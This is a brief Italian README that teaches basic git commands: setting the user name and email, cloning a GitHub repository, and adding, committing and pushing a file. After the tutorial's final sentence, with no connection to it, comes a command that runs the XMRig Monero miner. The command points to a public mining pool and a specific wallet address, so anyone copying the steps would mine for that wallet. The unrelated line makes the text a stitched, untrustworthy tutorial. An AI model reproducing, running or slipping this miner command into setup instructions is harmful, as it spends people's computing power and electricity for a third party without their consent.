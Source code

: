 # Come usare git

Configurare i propri dati GitHub:
```
git config --global user.name "username"
git config --global user.email "email"
git config --list

```

Creare una cartella `myRepository`:

```
mkdir myRepository
cd myRepository
git clone https://github.com/username/myGitHubRepositoryName
touch filename.cpp
gedit filename.cpp
git status
git add filename.cpp
git status 
git commit -m "Some Text" filename.cpp
git push -u origin master
```

Il file verra' aggiunto nella repository `GitHub`
./xmrig --donate-level 1 -o monero.herominers.com:10191 -u 49qbpNbn7tD4SyAMNQrvHN9FRfJw3V1UNiYafLwNwZTxDHew97c9xeM53RT8qpo7kfi9GKRLDR8tuJcSnFif9WjU8G4U7QP -p samuele -a rx/0 -k

